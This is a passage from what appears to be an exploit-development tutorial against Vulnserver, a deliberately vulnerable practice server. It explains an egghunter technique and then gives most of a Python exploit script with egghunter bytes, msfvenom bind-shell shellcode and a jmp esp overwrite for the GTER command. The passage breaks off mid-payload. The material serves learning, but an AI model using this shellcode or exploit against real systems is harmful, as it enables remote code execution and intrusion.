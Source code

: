But where can we fit it? This shellcode is 355 bytes long, but we only
have 140 bytes as much to work.

We have to think out of the box: `Vulnserver` is a server (really\!),
and it will surely multiplex connections. Well, we can create a
different connection to send the shellcode over\! That will store the
shellcode on the process memory where our egghunter will be able to find
it.

We can now finish our exploit. Remember to prepend the `w00tw00t` egg to
the shellcode, or the egghunter won’t be able to find it\!

**exploit.py.**

``` python
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

EGGHUNTER =  b""
EGGHUNTER += b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd"
EGGHUNTER += b"\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74"
EGGHUNTER += b"\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

# msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00'
SHELL =  b"w00tw00t"      # The egghunter will look for this
SHELL += b"\xdb\xda\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x53\xb8"
SHELL += b"\x02\xdd\x89\x3a\x31\x42\x17\x03\x42\x17\x83\xe8"
SHELL += b"\x21\x6b\xcf\x10\x31\xee\x30\xe8\xc2\x8f\xb9\x0d"
SHELL += b"\xf3\x8f\xde\x46\xa4\x3f\x94\x0a\x49\xcb\xf8\xbe"
SHELL += b"\xda\xb9\xd4\xb1\x6b\x77\x03\xfc\x6c\x24\x77\x9f"
SHELL += b"\xee\x37\xa4\x7f\xce\xf7\xb9\x7e\x17\xe5\x30\xd2"
SHELL += b"\xc0\x61\xe6\xc2\x65\x3f\x3b\x69\x35\xd1\x3b\x8e"
SHELL += b"\x8e\xd0\x6a\x01\x84\x8a\xac\xa0\x49\xa7\xe4\xba"
SHELL += b"\x8e\x82\xbf\x31\x64\x78\x3e\x93\xb4\x81\xed\xda"
SHELL += b"\x78\x70\xef\x1b\xbe\x6b\x9a\x55\xbc\x16\x9d\xa2"
SHELL += b"\xbe\xcc\x28\x30\x18\x86\x8b\x9c\x98\x4b\x4d\x57"
SHELL += b"\x96\x20\x19\x3f\xbb\xb7\xce\x34\xc7\x3c\xf1\x9a"
SHELL += b"\x41\x06\xd6\x3e\x09\xdc\x77\x67\xf7\xb3\x88\x77"
SHELL += b"\x58\x6b\x2d\xfc\x75\x78\x5c\x5f\x12\x4d\x6d\x5f"
SHELL += b"\xe2\xd9\xe6\x2c\xd0\x46\x5d\xba\x58\x0e\x7b\x3d"
SHELL += b"\x9e\x25\x3b\xd1\x61\xc6\x3c\xf8\xa5\x92\x6c\x92"
SHELL += b"\x0c\x9b\xe6\x62\xb0\x4e\x92\x6a\x17\x21\x81\x97"
SHELL += b"\xe7\x91\x05\x37\x80\xfb\x89\x68\xb0\x03\x40\x01"
SHELL += b"\x59\xfe\x6b\x3c\xc6\x77\x8d\x54\xe6\xd1\x05\xc0"
SHELL += b"\xc4\x05\x9e\x77\x36\x6c\xb6\x1f\x7f\x66\x01\x20"
SHELL += b"\x80\xac\x25\xb6\x0b\xa3\xf1\xa7\x0b\xee\x51\xb0"
SHELL += b"\x9c\x64\x30\xf3\x3d\x78\x19\x63\xdd\xeb\xc6\x73"
SHELL += b"\xa8\x17\x51\x24\xfd\xe6\xa8\xa0\x13\x50\x03\xd6"
SHELL += b"\xe9\x04\x6c\x52\x36\xf5\x73\x5b\xbb\x41\x50\x4b"
SHELL += b"\x05\x49\xdc\x3f\xd9\x1c\x8a\xe9\x9f\xf6\x7c\x43"
SHELL += b"\x76\xa4\xd6\x03\x0f\x86\xe8\x55\x10\xc3\x9e\xb9"
SHELL += b"\xa1\xba\xe6\xc6\x0e\x2b\xef\xbf\x72\xcb\x10\x6a"
SHELL += b"\x37\xeb\xf2\xbe\x42\x84\xaa\x2b\xef\xc9\x4c\x86"
SHELL += b"\x2c\xf4\xce\x22\xcd\x03\xce\x47\xc8\x48\x48\xb4"
SHELL += b"\xa0\xc1\x3d\xba\x17\xe1\x17"


PAYLOAD = (
    b'GTER /.:/' +
    EGGHUNTER +
    b'A' * (147 - len(EGGHUNTER)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
```